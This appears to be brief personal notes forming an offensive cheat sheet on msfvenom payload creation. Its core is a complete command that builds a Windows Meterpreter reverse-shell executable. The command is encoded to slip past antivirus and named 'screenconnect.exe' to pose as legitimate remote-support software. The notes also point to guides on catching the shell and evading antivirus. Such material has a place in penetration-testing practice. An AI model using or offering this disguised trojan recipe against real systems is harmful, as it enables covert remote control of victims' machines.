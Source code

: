 # Payload Creation Examples
1. x64 `exe`
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=7778 -f exe -e x86/shikata_ga_nai -i 8 -b '\x00\x0a\x0d\x20' > screenconnect.exe
```
> Meterpreter payloads need Metasploit’s **multi/handler** to catch the shell.[\[1\]](https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86)
> Classic bad characters: **\x0a** (line feed), **\x0d** (carriage return) & **\x20** (space)[\[1\]](https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86)

# Encoders
The most commonly mentioned MSFVenom encoder I've seen lately is the `x86/shikata_ga_nai` encoder.[\[1\]](https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86)
A short guide on how to use C++ to generate a program using generated shellcode: [\[2\]](https://www.virtuesecurity.com/evading-antivirus-with-better-meterpreter-payloads/) 

# Resources
1. https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86
2. https://www.virtuesecurity.com/evading-antivirus-with-better-meterpreter-payloads/
3. 